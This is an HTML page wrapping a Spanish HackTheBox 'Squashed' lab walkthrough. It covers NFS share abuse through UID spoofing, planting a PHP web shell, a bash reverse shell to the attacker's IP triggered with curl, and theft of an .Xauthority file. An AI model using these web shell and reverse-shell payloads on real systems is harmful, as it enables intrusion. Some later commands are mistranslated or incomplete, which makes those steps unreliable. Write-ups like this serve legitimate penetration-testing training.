



<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Squashed</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Squashed" de HackTheBox

Caracteristicas:

- Linux
- Easy
- NFS Enumeration
- Abusing owners assigned to NFS shares by creating new users on the system (Get access to Web Root)
- Creating a web shell to gain system acces
- Abusing to Xauthority file (Pentest x11)
- Taking a Screenshot of another users display

Util en:

- OSCP

        IP 10.10.11.191

- nmap -p- --min-rate 10000 10.10.11.191

<pre>
<code>
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
41527/tcp open  unknown
43109/tcp open  unknown
57809/tcp open  unknown
58777/tcp open  unknown
</code>
</pre>

- nmap -p 22,80,111,2049,41527,43109,57809,58777 -sCV 10.10.11.191

<pre>
<code>
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      38017/udp   mountd
|   100005  1,2,3      38441/udp6  mountd
|   100005  1,2,3      39221/tcp6  mountd
|   100005  1,2,3      57809/tcp   mountd
|   100021  1,3,4      34926/udp   nlockmgr
|   100021  1,3,4      35429/tcp6  nlockmgr
|   100021  1,3,4      41527/tcp   nlockmgr
|   100021  1,3,4      50850/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
41527/tcp open  nlockmgr 1-4 (RPC #100021)
43109/tcp open  mountd   1-3 (RPC #100005)
57809/tcp open  mountd   1-3 (RPC #100005)
58777/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</code>
</pre>

vemos 

22 ssh: Si podemos adquirir credenciales, podremos iniciar sesión de forma remota.

80 http: Se está alojando un servidor web con el título "Built Better"

111 RPC: llamada a procedimiento remoto que se puede utilizar para administrar remotamente el servidor

2049 nfs: un archivo compartido nfs 

si visitamos la web vemos



probamos conectarnos a rpc sin credneciales sin exito podemos usar showmount para enumerar los archivos compartidos por nfs

- showmount -e 10.10.11.191

Vemos que /home/ross y /var/www/html están disponibles. Intentemos conectarnos al archivo compartido /home/ross





vemos varios archivos los listamos y procedemos a crear unos nuevos

- mkdir /tmp/www

- mkdir /tmp/home_test 

montamos los archivos creados 


vemos los archivos

- tree -fas ./home_test

creamos nu nuevo usuario y le asignamos permisos 

- sudo useradd new 

- sudo usermod -u 2017 new 

- sudo groupmod -g 2017 new 

cambiamos el usuario a root y luego cambie el usuario a new.

- sudo su

- su new

lanzamos bash

cree un shell en el directorio /tmp.

- echo '<?php system($_REQUEST[“cmd”]); ?>' > /tmp/www/shell.php 

ahora obtenemos el shell inverso 

curl “http://10.10.11.191/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.134/443%200%3E%261%22"

y tenemos shell como alex, asi que buscamos la shell de usuario. Ejecutamos el comando tree en home_test, y en la salida vemos documents/passwords.kdbx
lo enviamos a nuestra carpeta.
Ahora crearemos otro usuario

- sudo useradd user

- sudo usermod -u 1001 user

iniciamos sesion en este usuario de4sde nuestro root, para proceder enumerando el archivo. ls -l ./.Xautoridad desde este usuario 
Ejecute un servidor Python. 

- python3 -m http.servidor 8080 . 

y alex hacemos 

- wget http://10.10.14.134:8080/.Xauthority

ahora desde alex 

- export Home=/home/alex.

ahora desde alex hacemos ingresamos con nuestra clave

- su root

y somos root


Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>